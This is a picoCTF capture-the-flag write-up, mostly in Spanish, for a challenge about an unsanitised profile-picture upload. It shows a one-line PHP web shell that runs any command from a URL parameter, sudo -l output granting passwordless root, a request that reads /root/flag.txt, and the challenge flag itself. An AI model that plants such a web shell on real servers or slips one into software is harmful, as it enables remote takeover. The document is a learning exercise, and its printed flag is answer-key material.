 ## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:63831/)!

## Hint

1. File upload was not sanitized
2.  Whenever you get a shell on a remote machine, check `sudo -l`

## Solution

Como es carga de archivos, lo primero que se piensa es hacer una revershell con php para cargarla Por suerte tenia una, que me daba hasta interfas de usuario

```html
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```

A partir de ahi empezamos a ejecutar comando, ejecutamos un sudo -l para ver que podemos ejecutar sin necesidad de contraseña, y nos da el siguiente resultado

```java
Matching Defaults entries for www-data on challenge:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
  
User www-data may run the following commands on challenge:  
(ALL) NOPASSWD: ALL
```

Lo que nos muestra que podemos ejecutar todo como root sin necesidad de contraseña, por lo que ejecutamos un cat a la bandera, que ya sabemos que es flag.txt

```
http://standard-pizzas.picoctf.net:53362/uploads/scrypt5.php?cmd=sudo%20cat%20/root/flag.txt

liga: picoCTF{wh47_c4n_u_d0_wPHP_d698d800}
```

### Tags
